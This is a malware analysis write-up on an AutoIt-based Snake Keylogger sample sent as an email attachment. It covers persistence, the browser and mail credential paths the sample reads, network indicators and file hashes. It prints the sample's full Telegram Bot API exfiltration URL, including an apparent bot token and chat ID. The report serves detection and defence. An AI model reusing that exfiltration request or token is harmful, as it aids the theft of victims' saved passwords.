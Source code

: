 # Autoit Passwordstealer
Analysing of a sneaky Autoit password stealer

During one of client system checkups, we observed that sandbox (protection against 0-day malware) detected unique sample.

## What it does?
A spy trojan is a type of malware that has the capability to gather information from the infected system without consent from the user. This information is then sent to a remote attacker.

## Let's investigate:
1. It comes as an email attachment.    
2. Low detection rate on Virus Total (few hours ago, it was even lower):    
   
![Screenshot 2024-10-03 105532](https://github.com/user-attachments/assets/3bf887a9-e987-4c95-9324-24b904c2bc6c)    
4. **Various detection evasion techniques (MITRE ATT&CK):**
- Installs itself for autorun at Windows startup ([T1547.001][T1112][T1547])
- Tries to unhook or modify Windows functions - Defense Evasion::Impair Defenses::Disable or Modify Tools ([T1562.001][T1562])
-	Establishes an encrypted HTTPS connection

![image](https://github.com/user-attachments/assets/11cfae11-d0dc-4c74-9e47-755dcbdda6b0)

## Malicious behavior    
**Access to private data:**    
C:\Users\Administrator\AppData\Roaming\Mozilla\Firefox\Profiles\*
C:\Users\Administrator\AppData\Roaming\Comodo\IceDragon\Profiles\*
C:\Users\Administrator\AppData\Roaming\Mozilla\Firefox\Profiles\anuqzgm9.default\logins.json
C:\Users\Administrator\AppData\Roaming\Thunderbird\Profiles\*

**Startup list modified**    
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\name.vbs

**Malware sample is being copied**    
C:\Users\Administrator\AppData\Local\directory\name.exe

**Network communications (Network IOCs)**    
- checkip.dyndns.org
- hxxp://checkip.dyndns.org/
- 188.114.97.7 - this is malicious server hiding behind Cloudflare.

![image](https://github.com/user-attachments/assets/35f411be-00d3-44a6-b70e-9a8985414114)

**Another one where your data is being uploaded to Telegram trough Telegram API:**    

hxxps://api.telegram.org/bot7844099330:AAF8QvgLCzWpfFABAfLjd1zx_8jhNhBnkCM/sendDocument?chat_id=6023628633&caption=WALKER%20/%20Passwords%20/%201.254.1.255

## What's inside "PAYMENtT SLIP.zip"    
- PAYMENtT SLIP.exe

**Malware name:** Snake Keylogger.    

**Let's dig deeper:**    
- Autoit script inside (0_script.au3):    
![image](https://github.com/user-attachments/assets/9af2cf8d-17ee-4375-9cf3-06b68de88591)    
- And more interesting components inside:    
![Screenshot 2024-10-03 185431](https://github.com/user-attachments/assets/71c26f26-331f-44f5-b826-8dbe8e94c029)


# IOCs    
**File IOCs (SHA256):**    

PAYMENtT SLIP.exe: 010de55b915041cf53041d71331242f6f6ee3774288795510cc632c970c588eb    

0_script.au3: 47890475b089b0beeaa2b00004ee3c7e9b30a672e4d48cffc1ec9ccbac137c67    

PAYMENtT SLIP.zip: 9ecedfa7d90d3320af7442a724d64ba96387b1d364344b7898ed2d05e99a2c60    
   
